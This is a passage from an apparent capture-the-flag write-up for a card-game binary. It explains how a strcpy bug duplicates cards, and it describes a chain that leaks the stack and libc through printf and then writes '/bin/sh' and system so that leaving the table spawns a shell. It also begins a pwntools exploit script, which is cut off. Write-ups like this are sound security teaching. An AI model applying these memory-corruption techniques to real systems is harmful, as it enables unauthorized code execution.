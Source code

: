 Further down the line, at index 22, there's a libc address (offset from base: `0x18637`).

To sum up, if we could achieve a `prize_index` of 16 multiple times, we could do the following:
- Leak the stack (because the program calls `printf` on the "prize")
- Write 5 dwords on the stack in order to overwrite zeros; this allows us to have a continuous stream of bytes up to the libc address further down the stack
- Leak the libc address
- Write "/bin/sh" and `libc_system`
- Leave the table, which results in `system("/bin/sh")`.

## Exploit

Using the `strcpy` undefined behaviour described in the previous section, we can duplicate some cards while eliminating others. Here's the TL;DR version: if we have a hand size of 14 cards, when we `discard`, we get the effect of duplicating the card at index 8 while deleting the card at index 7.

```
Your choice: 4
******************************
Your hand is:
🂽 🂱 🃞 🃇 🂲 🃄 🂦 🂫 🃎 🂤 🃖 🃙 🃑 🂩 
******************************
1. Draw card.
2. Discard a card.
3. Play hand.
4. Show hand.
5. Fold.
6. Leave table.
Your choice: 2
1. Draw card.
2. Discard a card.
3. Play hand.
4. Show hand.
5. Fold.
6. Leave table.
Your choice: 4
******************************
Your hand is:
🂱 🃞 🃇 🂲 🃄 🂦 🃎 🃎 🂤 🃖 🃙 🃑 🂩 
******************************
```

Note the duplicated King of Diamonds (🃎) in this case.

A score of 16800 can be obtained by having a hand of the form `AKSSS` in any order, where A - Ace, K - King and S - Ace of Spades. If we duplicate the Ace of Spades, Kings and Aces a sufficient amount of times, we can greatly increase our odds of drawing such a hand, essentially creating a deck of Aces and Kings (and lots of Aces of Spades).

```python
#!/usr/bin/python
from pwn import *

def is_ip_or_hostname(s):
	if "." not in s:
		return False
	for i in s:
		if i  in [" ", "'" , '"' , ";", "/", "(", ")" ]:
			return False

	return True

def is_port(s):
	try:
		port = int(s)
		if port > 0 and port < 65536:
```